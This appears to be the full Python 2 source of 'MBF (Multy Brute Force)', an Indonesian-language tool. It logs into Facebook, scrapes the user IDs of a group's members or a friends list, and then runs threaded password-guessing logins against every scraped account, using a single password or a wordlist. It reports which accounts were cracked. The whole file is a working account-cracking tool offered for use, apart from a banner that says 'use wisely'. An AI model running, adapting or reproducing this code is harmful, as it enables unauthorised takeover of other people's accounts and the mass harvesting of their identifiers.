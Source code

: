 from __future__ import print_function
import platform,os
def tampil(x):
	w = {'m':31,'h':32,'k':33,'b':34,'p':35,'c':36}
	for i in w:
		x=x.replace('\r%s'%i,'\033[%s;1m'%w[i])
	x+='\033[0m'
	x=x.replace('\r0','\033[0m')
	print(x)
if platform.python_version().split('.')[0] != '2':
	tampil('\rm[!] Silahkan menggunakan versi 2.x.x'%v().split(' ')[0])
	os.sys.exit()
import cookielib,re,urllib2,urllib,threading
try:
	import mechanize
except ImportError:
	tampil('\rm[!]Module \rcmechanize\rm belum di install...')
	os.sys.exit()
def keluar():
	simpan()
	tampil('\rm[!]Keluar')
	os.sys.exit()
log = 0
id_bteman = []
id_bgroup = []
fid_bteman = []
fid_bgroup = []
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_equiv(True)
br.set_handle_referer(True)
br.set_cookiejar(cookielib.LWPCookieJar())
br.set_handle_redirect(True)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
def bacaData():
	global fid_bgroup,fid_bteman
	try:
		fid_bgroup = open(os.sys.path[0]+'/MBFbgroup.txt','r').readlines()
	except:pass
	try:
		fid_bteman = open(os.sys.path[0]+'/MBFbteman.txt','r').readlines()
	except:pass
def inputD(x,v=0):
	while 1:
		try:
			a = raw_input('\x1b[32;1m%s\x1b[31;1m:\x1b[33;1m'%x)
		except:
			tampil('\n\rm[!]Batal')
			keluar()
		if v:
			if a.upper() in v:
				break
			else:
				tampil('\rm[!]Masukan Opsi Terlebih Dahulu...')
				continue
		else:
			if len(a) == 0:
				tampil('\rm[!]Masukan dengan benar')
				continue
			else:
				break
	return a
def inputM(x,d):
	while 1:
		try:
			i = int(inputD(x))
		except:
			tampil('\rm[!]Pilihan tidak ada')
			continue
		if i in d:
			break
		else:
			tampil('\rm[!]Pilihan tidak ada')
	return i
def simpan():
	if len(id_bgroup) != 0:
		tampil('\rh[*]Menyimpan hasil dari group')
		try:
			open(os.sys.path[0]+'/MBFbgroup.txt','w').write('\n'.join(id_bgroup))
			tampil('\rh[!]Berhasil meyimpan \rcMBFbgroup.txt')
		except:
			tampil('\rm[!]Gagal meyimpan')
	if len(id_bteman) != 0:
		tampil('\rh[*]Menyimpan hasil daftar Teman...')
		try:
			open(os.sys.path[0]+'/MBFbteman.txt','w').write('\n'.join(id_bteman))
			tampil('\rh[!]Berhasil meyimpan \rcMBFbgteman.txt')
		except:
			tampil('\rm[!]Gagal meyimpan')
def buka(d):
	tampil('\rh[*]Membuka \rp'+d)
	try:
		x = br.open(d)
		br._factory.is_html = True
		x = x.read()
	except:
		tampil('\rm[!]Gagal membuka \rp'+d)
		keluar()
	if '<link rel="redirect" href="' in x:
		return buka(br.find_link().url)
	else:
		return x
def login():
	global log
	us = inputD('[?]Email/HP/Id/Username')
	pa = inputD('[?]Kata Sandi')
	tampil('\rh[*]Sedang Login....')
	buka('https://m.facebook.com')
	br.select_form(nr=0)
	br.form['email']=us
	br.form['pass']=pa
	br.submit()
	url = br.geturl()
	if 'save-device' in url or 'm_sess' in url:
		tampil('\rh[*]Login Berhasil')
		buka('https://mobile.facebook.com/home.php')
		nama = br.find_link(url_regex='logout.php').text
		nama = re.findall(r'\((.*a?)\)',nama)[0]
		tampil('\rh[*]Selamat datang \rk%s\n\rh[*]Semoga ini adalah hari keberuntungan mu....'%nama)
		log = 1
	elif 'checkpoint' in url:
		tampil('\rm[!]Akun kena checkpoint\n\rk[!]Coba Login dengan opera mini')
		keluar()
	else:
		tampil('\rm[!]Login Gagal')
def saring_id_teman(r):
	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):
		id_bteman.append(i)
		tampil('\rc==>\rb%s\rm'%i)
def saring_id_group1(d):
	for i in re.findall(r'<h3><a href="/(.*?)fref=pb',d):
		if i.find('profile.php') == -1:
			a = i.replace('?','')
		else:
			a = i.replace('profile.php?id=','').replace('&amp;','')
		if a not in id_bgroup:
			tampil('\rk==>\rc%s'%a)
			id_bgroup.append(a)
def saring_id_group0():
	global id_group
	while 1:
		id_group = inputD('[?]Id Group')
		tampil('\rh[*]Mengecek Group....')
		a = buka('https://m.facebook.com/browse/group/members/?id='+id_group+'&amp;start=0&amp;listType=list_nonfriend&amp;refid=18&amp;_rdc=1&amp;_rdr')
		nama = ' '.join(re.findall(r'<title>(.*?)</title>',a)[0].split()[1:])
		try:
			next = br.find_link(url_regex= '/browse/group/members/').url
			break
		except:
			tampil('\rm[!]Id yang anda masukan salah')
			continue
	tampil('\rh[*]Mengambil Id dari group \rc%s'%nama)
	saring_id_group1(a)
	return next
def idgroup():
	if log != 1:
		tampil('\rh[*]Harap Login Terlebih Dahulu...')
		login()
		if log == 0:
			keluar()
	next = saring_id_group0()
	while 1:
		saring_id_group1(buka(next))
		try:
			next = br.find_link(url_regex= '/browse/group/members/').url
		except:
			tampil('\rm[!]Hanya Bisa Mengambil \rh %d id'%len(id_bgroup))
			break
	simpan()
	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bgroup)
	else:
		return menu()
def idteman():
	if log != 1:
		tampil('\rh[*]Harap Login Terlebih Dahulu...')
		login()
		if log == 0:
			keluar()
	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))
	try:
		next = br.find_link(url_regex= 'friends_center_main').url
	except:
		if len(id_teman) != 0:
			tampil('\rm[!]Hanya dapat mengambil \rp%d id'%len(id_bteman))
		else:
			tampil('\rm[!]Batal')
			keluar()
	while 1:
		saring_id_teman(buka(next))
		try:
			next = br.find_link(url_regex= 'friends_center_main').url
		except:
			tampil('\rm[!]Hanya dapat mengambil \rp%d id'%len(id_bteman))
			break
	simpan()
	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bteman)
	else:
		return menu()
class mt(threading.Thread):
    def __init__(self,i,p):
        threading.Thread.__init__(self)
        self.id = i
        self.a = 3
        self.p = p
    def update(self):
        return self.a,self.id
    def run(self):
        try:
             data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))
        except KeyboardInterrupt:
            os.sys.exit()
        except:
            self.a = 8
            os.sys.exit()
        if 'm_sess' in data.url or 'save-device' in data.url:
            self.a = 1
        elif 'checkpoint' in data.url:
            self.a = 2
        else:
            self.a = 0
def crack(d):
	i = inputD('[?]Pake Passwordlist/Manual (p/m)',['P','M'])
	if i.upper() == 'P':
		while 1:
			dir = inputD('[?]Masukan alamat file')
			try:
				D = open(dir,'r').readlines()
			except:
				tampil('\rm[!]Gagal membuka \rk%s'%dir)
				continue
			break
		tampil('\rh[*]Memulai crack dengan \rk%d password'%len(D))
		for i in D:
			i = i.replace('\n','')
			if len(i) != 0:
				crack0(d,i,0)
		i = inputD('[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])
		if i.upper() == 'Y':
			return crack(d)
		else:
			return menu()
	else:
		return crack0(d,inputD('[?]Sandi'),1)
def crack0(data,sandi,p):
	tampil('\rh[*]MengCrack \rk%d Akun \rhdengan sandi \rm[\rk%s\rm]'%(len(data),sandi))
	print('\033[32;1m[*]Cracking \033[31;1m[\033[36;1m0%\033[31;1m]\033[0m',end='')
	os.sys.stdout.flush()
	akun_jml = []
	akun_sukses = []
	akun_cekpoint = []
	akun_error = []
	akun_gagal = []
	jml0,jml1 = 0,0
	th = []
	for i in data:
		i = i.replace(' ','')
		if len(i) != 0:th.append(mt(i,sandi))
	for i in th:
		jml1 += 1
		i.daemon = True
		try:i.start()
		except KeyboardInterrupt:exit()
	while 1:
		try:
			for i in th:
				a = i.update()
				if a[0] != 3 and a[1] not in akun_jml:
					jml0 += 1
					if a[0] == 2:
						akun_cekpoint.append(a[1])
					elif a[0] == 1:
						akun_sukses.append(a[1])
					elif a[0] == 0:
						akun_gagal.append(a[1])
					elif a[0] == 8:
						akun_error.append(a[1])
					print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m%0.2f%s\033[31;1m]\033[0m'%(float((float(jml0)/float(jml1))*100),'%'),end='')
					os.sys.stdout.flush()
					akun_jml.append(a[1])
		except KeyboardInterrupt:
			os.sys.exit()
		try:
			if threading.activeCount() == 1:break
		except KeyboardInterrupt:
			keluar()
	print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m100%\033[31;1m]\033[0m     ')
	if len(akun_sukses) != 0:
		tampil('\rh[*]Daftar akun sukses')
		for i in akun_sukses:
			tampil('\rh==>\rk%s \rm[\rp%s\rm]'%(i,sandi))
	tampil('\rh[*]Jumlah akun berhasil\rp      %d'%len(akun_sukses))
	tampil('\rm[*]Jumlah akun gagal\rp         %d'%len(akun_gagal))
	tampil('\rk[*]Jumlah akun cekpoint\rp      %d'%len(akun_cekpoint))
	tampil('\rc[*]Jumlah akun error\rp         %d'%len(akun_error))
	if p:
		i = inputD('[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])
		if i.upper() == 'Y':
			return crack(data)
		else:
			return menu()
	else:
		return 0
def lanjutT():
	global fid_bteman
	if len(fid_bteman) != 0:
		i = inputD('[?]Reset Hasil Id Teman/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bteman)
		else:
			os.remove(os.sys.path[0]+'/MBFbteman.txt')
			fid_bteman = []
	return 0
def lanjutG():
	global fid_bgroup
	if len(fid_bgroup) != 0:
		i = inputD('[?]Reset Hasil Id Group/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bgroup)
		else:
			os.remove(os.sys.path[0]+'/MBFbgroup.txt')
			fid_bgroup = []
	return 0
def menu():
	tampil('''\rh
              
#######################################################
#             *MBF ( Multy Brute Force )*             #
#                   BY.R$Z)RM4N                       #  
#                Gunakan Dengan Bijak                 # 
#######################################################''')
	tampil('''\rk%s\n\rc1 \rhAmbil Id Dari Group\n\rc2 \rhAmbil Id Dari Daftar Teman\n\rc3 \rmKELUAR\n\rk%s'''%('#'*20,'#'*20))
	i = inputM('[?]PILIH OPSI',[1,2,3])
	if i == 1:
		lanjutG()
		idgroup()
	elif i == 2:
		lanjutT()
		idteman()
	elif i == 3:
		keluar()
bacaData()
menu()
